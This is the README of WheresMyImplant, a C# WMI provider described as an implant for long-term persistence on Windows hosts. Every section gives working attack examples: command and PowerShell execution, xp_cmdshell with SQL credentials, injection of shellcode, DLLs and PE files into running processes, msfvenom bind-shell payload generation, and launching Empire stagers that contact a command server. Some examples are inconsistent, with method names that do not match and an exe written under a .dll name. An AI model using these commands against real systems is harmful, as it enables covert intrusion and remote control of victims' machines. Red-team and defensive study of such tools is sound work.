 ### WheresMyImplant: A C# WMI Provider for long term persistance

This WMI provider includes functions to execute commands, payloads, and Empire Agent to maintain a low profile on the host.

### Methods

* #### RunCMD
  * Parameter: Command, Parameters
  * Example: <br/>
  Invoke-CimMethod -Class Win32_Implant -Name RunPowerShell -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;command="ipconfig"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;parameter="/all" <br/>
  };
  
* #### RunPowerShell
  * Parameter: Command
  * Example: <br/>
  Invoke-CimMethod -Class Win32_Implant -Name RunPowerShell -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;command="whoami" <br/>
  };
  
* #### RunXpCmdShell
  * Parameter: Server, Database, UserName, Password, Command
  * Example: <br/>
  Invoke-CimMethod -Class Win32_Implant -Name RunXpCmdShell -Argument @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;command="whoami"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;database=""; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;server="sqlserver" <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;username="sa"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;password="password" <br/>
  };
  
* #### InjectShellCode
  * Parameter: ShellCodeString, ProcessId
  * Example: <br/>
  msfvenom -p windows/x64/exec --format csharp CMD=calc.exe <br/>
  Invoke-CimMethod -Class Win32_Implant -Name InjectShellCode -Argument @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;shellCodeString=$payload; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId=432 <br/>
  };
  
* #### InjectShellCodeWMFIFSB4
  * Parameters: WmiClass, FileName, ProcessId
  * Example: <br/>
  msfvenom -p windows/x64/exec --format csharp CMD=calc.exe
  Invoke-CimMethod -Class Win32_Implant -Name InjectShellCodeWMFIFSB4 -Argument @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;WmiClass="WMIFS"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName="CalcShellCode"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId=432; <br/>
  };
  
* #### InjectDll
  * Parameters: Library, ProcessId
  * Example: <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format dll --arch x64 > /tmp/bind64.dll
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectDll -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;library = "\\host\share\bind64.dll"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId = 3372; <br/>
  };
  
* #### InjectDllWMIFS
  * Parameters: WmiClass, FileName, ProcessId
  * Example: <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format dll --arch x64 > /tmp/bind64.dll
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectDllWMIFS -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;WmiClass = "WMIFS"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "bind64.dll"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId = 3372; <br/>
  };
  
* #### InjectPeFile
  * Parameters: FileName, Parameters, ProcessId
  * Example: <br/>
  * msfvenom -p windows/x64/shell_bind_tcp --format exe --arch x64 > /tmp/bind64.dll
  * Invoke-CimMethod -ClassName Win32_Implant -Name InjectPe -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "C:\bind64.exe"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Parameters = ""; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ProcessId=5648; <br/>
  };
  
* #### InjectPeString
  * Parameters: PeString, Parameters, ProcessId
  * msfvenom -p windows/x64/shell_bind_tcp --format exe --arch x64 > /tmp/bind64.dll
  * Example: <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectPeString -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "C:\bind64.exe"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Parameters = ""; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ProcessId=5648; <br/>
  };
  
* #### InjectPeWMIFS
  * Parameters: WmiClass, FileName, Parameters, ProcessId
  * msfvenom -p windows/x64/shell_bind_tcp --format exe --arch x64 > /tmp/bind64.dll
  * Example: 
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectPeFromFileRem -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "C:\bind64.exe"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Parameters = ""; ProcessId=5648; <br/>
  };
  
* #### Empire
  * Parameters: Server, StagingKey, Language
  * Example: <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name EmpireStager -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Server = $Server; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;StagingKey = $StagingKey; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Language = "PowerShell"; <br/>
  }; 
  
  Invoke-CimMethod -ClassName Win32_Implant -Name EmpireStager -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Server = $Server; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$StagingKey = $StagingKey; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Language = "dotnet"; <br/>
  };


### Author, Contributors, and License

Author: Alexander Leary (@0xbadjuju), NetSPI - 2017

License: BSD 3-Clause

Required Dependencies: None
